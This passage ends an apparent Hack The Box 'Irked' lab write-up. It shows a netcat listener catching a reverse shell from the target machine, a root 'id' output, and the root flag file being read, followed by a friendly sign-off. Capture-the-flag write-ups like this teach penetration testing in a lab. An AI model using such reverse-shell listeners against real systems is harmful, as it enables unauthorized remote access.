 Looking at our rev shell, and yes we got a connection.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Irked]
└──╼ $rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.117] 58647
id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
cd /root
wc -c root.txt
33 root.txt
{% endhighlight %} 

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.
